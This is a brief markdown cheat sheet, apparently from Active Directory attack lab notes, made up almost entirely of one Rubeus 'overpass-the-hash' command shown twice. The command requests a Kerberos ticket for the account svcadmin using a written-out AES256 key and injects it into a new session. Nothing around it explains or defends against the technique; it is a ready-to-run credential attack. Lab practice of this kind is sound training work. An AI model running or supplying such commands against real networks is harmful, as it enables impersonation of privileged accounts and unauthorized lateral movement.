 # Rubeus

## Use Rubeus to Over Pass the Hash

```
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin 
/aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Command Below is the same as above just not broken up

```
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
